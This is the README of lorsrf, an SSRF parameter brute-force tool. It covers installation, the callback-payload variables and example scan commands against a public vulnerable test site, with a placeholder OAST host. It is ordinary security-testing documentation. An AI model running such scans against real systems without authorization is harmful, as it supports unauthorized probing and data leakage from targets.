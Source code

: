 # LORSRF - 2.2
![screenshot](.github/workflows/screen.png)

***

lorsrf is just a web pen-testing tool that I wrote to find the parameters that can be used to find SSRF or Out-of-band resource load by adding OAST host like Burp Collaborator to the parameter value, above of all, the request that will be received in Burp Collaborator will be an HTTP request without any real pieces of information about the target, i was thinking about how can i get vulnerable parameter/endpoint , Hence i made a simple feature is that allowed you to add some pieces of information of the target in your OAST host as a variables
	
 
| Variable      | Description |
| ----------- | ----------- |
| %PARAM%      | the guessed parameter      |
| %PATH%   |  the endpoint of your target domain |
| %HOST%   | the scanning host
| %QUERY% | the query of the url |
| %METHOD% | Current METHOD |

you can use these for include more informations in your OAST host

```
target: http://testphp.vulnweb.com/showimage.php
payload: http://%HOST%.%PARAM%.testing.interactsh.com%PATH%
output: http://testphp.vulnweb.com.file.testing.interactsh.com/showimage.php
```

by default lorsrf use GET method if you want post method with form body or json you can add these falgs

```bash
$ lorsrf --json --form
```

if you want post only add `--post-only` flag


### Install
1. install rust from https://www.rust-lang.org/learn/get-started
2. run these commmands
```bash
>>> apt install gcc pkg-config libssl-dev
>>> cargo install --git https://github.com/knassar702/lorsrf
```

#### Examples

```
$ lorsrf --urls targets.txt -c "http://myhost.com" --wordlist params.txt
```

* json

```


$ lorsrf --urls targets.txt -c "http://myhost.com" --wordlist params.txt --json
```

* form

```
$ lorsrf --urls targets.txt -c "http://myhost.com" --wordlist params.txt --form
```


parameter scanner without geussing

```bash
$ waybackurls http://testphp.vulnweb.com > urls.txt
$ lorsrf --urls urls.txt -c "http://myhost.com" --wordlist params.txt
```


* Video: [demo](https://twitter.com/knassar702/status/1472566701027901450)

more options

```bash
Lorsrf 2.0
Khaled Nassar <knassar702@gmail.com>
SSRF Parameter BruteForce Tool

USAGE:
    lorsrf [FLAGS] [OPTIONS] --call <host> --urls <targets>

FLAGS:
    -f, --form         Use x-www-form-urlencoded requests via POST method
    -h, --help         Prints help information
    -j, --json         Use JSON requests via POST method
        --post-only    POST method only
    -V, --version      Prints version information

OPTIONS:
    -H, --headers <headers>      Your Headers [default: ]
    -c, --call <host>            Your The OAST Host (burpsuite collaborator or interactsh.com)
    -p, --proxy <proxy>          SendProxy [default: ]
    -u, --urls <targets>         Your Targets list
        --threads <threads>      Your Threads [default: 10]
    -t, --timeout <timeout>      Set the Timeout of the requests [default: 10]
    -w, --wordlist <wordlist>    Your Parameters Wordlist
```


### TODO-LIST
* https://github.com/knassar702/lorsrf/projects/1
